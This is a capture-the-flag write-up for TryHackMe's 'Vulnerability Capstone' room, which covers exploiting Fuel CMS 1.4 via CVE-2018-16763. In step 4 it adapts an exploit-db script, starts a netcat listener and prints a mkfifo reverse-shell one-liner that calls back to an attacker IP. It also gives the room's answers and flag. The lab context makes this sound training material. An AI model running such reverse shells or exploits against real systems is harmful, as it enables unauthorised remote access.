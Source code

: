 ![Vulnerability Capstone Banner](https://assets.tryhackme.com/additional/vulnerability-module/bug-banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability Capstone_Cover.png" alt="Vulnerability Capstone Logo">
</p>

# Vulnerability Capstone

This guide contains the answer and steps necessary to get to them for the [Vulnerability Capstone](https://tryhackme.com/room/vulnerabilitycapstone) room.

###  Exploit the Machine (Flag Submission) 

1. What is the name of the application running on the vulnerable machine?

   The easiest first step to take is to navigate to the application through our browser.

   Here we get the name as well as the version of the application.

   APPLICATION

   ><details><summary>Click for answer</summary>Fuel CMS</details>

2. What is the version number of this application?

   The answer we can find in the previous image.

   ><details><summary>Click for answer</summary>1.4</details>

3. What is the number of the CVE that allows an attacker to remotely execute code on this application?

   To find any exploit for this specific version of Fuel CMS we can look it up on exploit-db. Here we see a CVE that we could use.

   EXPLOIT

   ><details><summary>Click for answer</summary>CVE-2018-16763</details>

Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.

Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)

4. What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.

   Since we are on Kali and have searchsploit installed, we can use the exploit file on our system located at `usr/share/exploitdb/exploits/linux/webapps/47138.py'.

   After some research it seems we need to modify the script since we are using Python 3. This will give us an error if we don't change anything.

   Instead of using `urllib.quote`, we must use `urllib.parse.quote`.

   I also changed the URL to reflect my attack machine and removed the proxy entry.

   SCRIPT

   Now we can use this script to get our initial access to the vulnerable machine.

   ```cmd
   python3 47138.py
   ```

   To stabalize our shell we must first setup a Netcat listener with:

   ```cmd
   nc -nlvp 1337
   ```

   Then we execute the following command our our shell:

   ```cmd
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.78.136 1337 >/tmp/f
   ```

   CMD

   Now on our other terminal tab we can navigate the system to our flag.

   FLAG

   ><details><summary>Click for answer</summary>THM{ACKME_BLOG_HACKED}</details>
